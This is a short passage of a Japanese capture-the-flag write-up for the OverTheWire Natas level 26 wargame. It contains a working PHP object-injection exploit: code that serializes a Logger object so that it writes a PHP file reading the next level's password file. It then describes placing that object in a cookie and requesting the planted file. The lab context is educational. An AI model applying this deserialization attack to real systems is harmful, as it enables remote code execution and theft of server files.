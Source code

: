 以下にそれらを可能にするphpコードを作成する。  

```
<?php

class Logger {
	private $logFile;
	private $exitMsg;
	
	function __construct(){
		$this->exitMsg = "<?php readfile('/etc/natas_webpass/natas27'); ?>";
		$this->logFile = "/var/www/natas/natas26/img/er.php";
	}
}

$obj = new Logger();
echo base64_encode(serialize($obj));

?>
```

これでbase64でencodeされシリアライズされたオブジェクトが表示される。  

これをCookieのdrawingパラメータに置き換えてリクエストを送る。  

![](img/natas26-3.png)  

その後に`http://natas26.natas.labs.overthewire.org/img/er.php`へアクセスするとphpコードが実行され`/etc/natas_webpass/natas27`の内容が見られる。  


クリア


